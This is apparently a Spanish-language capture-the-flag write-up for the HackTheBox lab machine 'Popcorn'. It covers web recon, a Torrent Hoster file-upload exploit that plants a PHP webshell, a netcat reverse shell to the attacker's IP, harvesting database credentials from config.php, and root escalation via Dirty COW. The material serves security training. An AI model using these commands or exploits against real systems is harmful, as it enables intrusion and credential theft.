# Popcorn



- VHost popcorn.htb
- Whatweb
http://popcorn.htb/ [200 OK] Apache[2.2.12], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.2.12 (Ubuntu)], IP[10.129.49.96]
- Nmap



- 80



- Escaneamos subdominios -> no parece haber nada
- Fuzzeamos
```bash
gobuster dir -u http://popcorn.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php,html,js,txt
```



- /test -> phpinfo
Vemos info sobre rutas a directorios de php



- /rename



Vemos lo que parece un error en los parámetros de la url al llamar a la api



Tenemos posibilidad de renombrar archivos mediante la API sobre algún archivo que conozcamos y sobre el que tengamos permiso

- /torrent





Actúa como servidor intermedio en el peer2peer de descarga de torrent

- Buscaremos exploit sobre este **torrent hoster** levantado en la máquina
https://github.com/Anon-Exploiter/exploits/tree/master
Descargamos el exploit y ejecutamos
```bash
python2 torrent_hoster_unauthenticated_rce.py --url=http://popcorn.htb/torrent
```

Lo que hace el exploit es subir una webshell en php al apartado de *screenshots*



Conseguimos el RCE

- Lo que hace el exploit es cambiar el formato de la cabecera *Content-Type* para subir el contenido del php haciendose pasar por un *image/png*



A continuación llama a la webshell desde el directorio en el que se sube la imagen del archivo, que en la respuesta de la petición a la pag aparece en el html
- Nos enviamos una shell con nc
```bash
which nc
```

-> /bin/nc
```bash
/bin/nc -e /bin/bash 10.10.16.179 443
```

www-data

## Escalada

- Encontramos credenciales en */var/www/torrent/config.php*
torrent:SuperSecret!!

- Usuarios
**george**
Intentamos reutilizar contraseña pero no funciona

- Intentamos conectarnos a mysql
```bash
mysql -u torrent -p
```

-> Super Secret!!
```bash
select userName,password from users;
```



- Vemos que la versión del kernel es muy muy antigua **2.6.31-14-generic-pae**



Tenemos un **ubuntu 9.10** y la última versión es **22.04**

- Buscamos un exploit en google por "2.6.31-14-generic-pae exploit"
Encontramos un famoso **Dirty Cow** en searchsploit



https://www.exploit-db.com/exploits/40839
Lo descargamos y compilamos
```bash
gcc -pthread dirtycow.c -o dirty -lcrypt
```

```bash
./dirty pass
```

-> Crea un usuario *firefart* con contraseña *pass* y permisos de root (uid=0)



root
